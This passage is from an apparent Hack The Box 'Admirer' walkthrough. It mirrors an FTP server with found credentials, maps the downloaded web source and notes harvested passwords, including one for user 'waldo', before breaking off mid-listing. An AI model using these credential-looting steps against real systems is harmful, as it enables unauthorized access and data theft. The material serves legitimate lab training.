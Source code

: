 ## TCP/21 (FTP) - Analyzing the files in FTP
1. Download all files in  `FTP` 
	```
	┌──(root💀kali)-[~/htb/admirer/10.10.10.187/loot]
	└─# wget --no-passive -q -m --ftp-user="ftpuser" --ftp-password='%n?4Wz}R$tTF7' ftp://10.10.10.187:21
	```
2. View directory structure of `FTP`
	```
	┌──(root💀kali)-[~/htb/admirer/10.10.10.187/loot]
	└─# tree -a 10.10.10.187/
	10.10.10.187/
	├── dump.sql
	├── html.tar.gz
	└── .listing
	
	0 directories, 3 files
	```
	>  `dump.sql` does not contain any interesting information
	{: .prompt-info}
3. View directory structure of `html`
	```
	┌──(root💀kali)-[~/htb/admirer/10.10.10.187/loot/10.10.10.187/html]
	└─# tree -d
	.
	├── assets
	│   ├── css
	│   │   └── images
	│   ├── js
	│   ├── sass
	│   │   ├── base
	│   │   ├── components
	│   │   ├── layout
	│   │   └── libs
	│   └── webfonts
	├── images
	│   ├── fulls
	│   └── thumbs
	├── utility-scripts
	└── w4ld0s_s3cr3t_d1r
	
	15 directories
	```
	> - `index.php` - Creds: `waldo:]F7jLHw:*G>UPrTo}~A`
	> - `assets` - contains `.css` & `.js` files
	> - `images` - contains `.jpg` files
	> - `utility-scripts` - contains `.php` files w/ credentials
	> - `w4ld0s_s3cr3t_d1r` - same as `/admin-dir`
	{: .prompt-info}
4. View directory structure of `utility-scripts`
	```
	┌──(root💀kali)-[~/htb/admirer/10.10.10.187/loot/10.10.10.187/html]
	└─# tree  utility-scripts
	utility-scripts
	├── admin_tasks.php
	├── db_admin.php
	├── info.php
	└── phptest.php
	